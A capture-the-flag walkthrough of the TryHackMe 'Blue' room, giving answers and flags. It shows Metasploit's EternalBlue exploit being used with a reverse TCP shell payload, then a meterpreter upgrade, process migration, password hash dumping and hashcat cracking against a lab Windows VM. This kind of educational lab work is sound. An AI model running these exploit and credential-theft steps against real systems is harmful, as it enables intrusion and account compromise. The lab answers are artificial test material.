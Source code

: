 # Blue - TryHackMe 

Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

## Overview
- **Room URL:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)
- **Difficulty:** Easy
- **Time to complete:** 30

## Walkthrough
### 1. Recon
- <p>How many ports are open with a port number under 1000?</p>
```bash
nmap <MACHINE_IP> -p 0-1000
```
**=> Answer: `3`**

- <p>What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)</p>

**=> Answer: `ms17-010`**

### 2. Gain Access
- <p>Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)</p>
```bash
msfconsole
search ms17_010
```
**=> Answer: `exploit/windows/smb/ms17_010_eternalblue`**

- <p>Show options and set the one required value. What is the name of this value? (All caps for submission)</p>
```bash
use ms17_010_eternalblue
show options
```
**=> Answer: `RHOSTS`**

- Gain access to the target VM:
```bash
set payload windows/x64/shell/reverse_tcp
set RHOSTS <target VM IP>
run
```

- Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
```bash
Ctrl + Z
use post/multi/manage/shell_to_meterpreter
sessions -l
set SESSION 2
run
```

### 3. Escalate
- <p>If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) </p>

**=> Answer: `post/multi/manage/shell_to_meterpreter`**

- <p>Select this (use MODULE_PATH). Show options, what option are we required to change?</p>

**=> Answer: `SESSION`**

- <p>Set the required option, you may need to list all of the sessions to find your target here. </p>
```bash
SET SESSION 2
```

- <p>Run! If this doesn't work, try completing the exploit from the previous task once more.</p>
```bash
run
```

- <p>Once the meterpreter shell conversion completes, select that session for use.</p>
```
sessions -i <meterpreter session>
```

- <p>Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. </p>

- <p>List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).</p>

- <p>Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. </p>
```bash
# Take several attempts try multiple processes
migrate <process id>
```

### 4. Cracking
- <p>Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? </p>
```bash
hashdump
```
**=> Answer: `Jon`**

- <p>Copy this password hash to a file and research how to crack it. What is the cracked password?</p>
```bash
echo 'YOUR HASH VALUE' > hash.txt
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

# If you just have rockyou.txt.gz, decompress it.
gzip -d /usr/share/wordlists/rockyou.txt.gz
# Run hashcat again
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
**=> Answer: `alqfna22`**

### 5. Find flags!
```
Ctrl + Z
Get back to the original shell for better performance
sessions -i <original session id>
```
- Flag1? <i>This flag can be found at the system root. </i>
```powershell
cd ..
cd ..
dir
type flag1.txt
```
**=> Answer: `flag{access_the_machine}`**

- <p>Flag2? <i>This flag can be found at the location where passwords are stored within Windows.</i></p><p><br /></p><p>*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. </p>
```powershell
cd Windows/System32/Config
dir
type flag2.txt
```
**=> Answer: `flag{sam_database_elevated_access}`**

- <p>flag3? <i>This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. </i></p>
```powershell
cd /Users/Jon/Documents
type flag3.txt
```
**=> Answer: `flag{admin_documents_can_be_valuable}`**

